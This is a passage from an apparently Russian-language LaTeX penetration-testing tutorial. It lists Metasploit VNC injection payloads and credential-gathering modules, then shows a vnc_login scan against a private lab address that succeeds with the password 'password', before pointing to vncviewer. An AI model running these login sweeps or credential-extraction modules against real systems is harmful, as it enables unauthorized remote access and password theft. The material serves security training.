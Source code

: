 \documentclass[10pt,a4paper]{report}
\begin{document}
\begin{lstlisting}
   payload/windows/x64/vncinject/bind_tcp                                normal     Windows x64 VNC Server (Reflective Injection), Windows x64 Bind TCP Stager
   payload/windows/x64/vncinject/bind_tcp_uuid                           normal     Windows x64 VNC Server (Reflective Injection), Bind TCP Stager with UUID Support (Windows x64)
   payload/windows/x64/vncinject/reverse_http                            normal     Windows x64 VNC Server (Reflective Injection), Windows x64 Reverse HTTP Stager (wininet)
   payload/windows/x64/vncinject/reverse_https                           normal     Windows x64 VNC Server (Reflective Injection), Windows x64 Reverse HTTP Stager (wininet)
   payload/windows/x64/vncinject/reverse_tcp                             normal     Windows x64 VNC Server (Reflective Injection), Windows x64 Reverse TCP Stager
   payload/windows/x64/vncinject/reverse_tcp_uuid                        normal     Windows x64 VNC Server (Reflective Injection), Reverse TCP Stager with UUID Support (Windows x64)
   payload/windows/x64/vncinject/reverse_winhttp                         normal     Windows x64 VNC Server (Reflective Injection), Windows x64 Reverse HTTP Stager (winhttp)
   payload/windows/x64/vncinject/reverse_winhttps                        normal     Windows x64 VNC Server (Reflective Injection), Windows x64 Reverse HTTPS Stager (winhttp)
   post/multi/gather/remmina_creds                                       normal     UNIX Gather Remmina Credentials
   post/osx/gather/enum_chicken_vnc_profile                              normal     OS X Gather Chicken of the VNC Profile
   post/windows/gather/credentials/mremote                               normal     Windows Gather mRemote Saved Password Extraction
   post/windows/gather/credentials/vnc                                   normal     Windows Gather VNC Password Extraction


		\end{lstlisting}
		Запустим модуль auxiliary/scanner/vnc/vnc\_login, назначим целевой хост и запустим exploit для получения доступа к хосту:
		\begin{lstlisting}
msf > use auxiliary/scanner/vnc/vnc_login 
msf auxiliary(vnc_login) > set RHOSTS 169.254.120.103
RHOSTS => 169.254.120.103
msf auxiliary(vnc_login) > exploit 

[*] 169.254.120.103:5900 - Starting VNC login sweep
[+] 169.254.120.103:5900 - LOGIN SUCCESSFUL: :password
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

		\end{lstlisting}
		Запустим vncviewer и войдем при помощи полученного пароля:
		
\end{document}
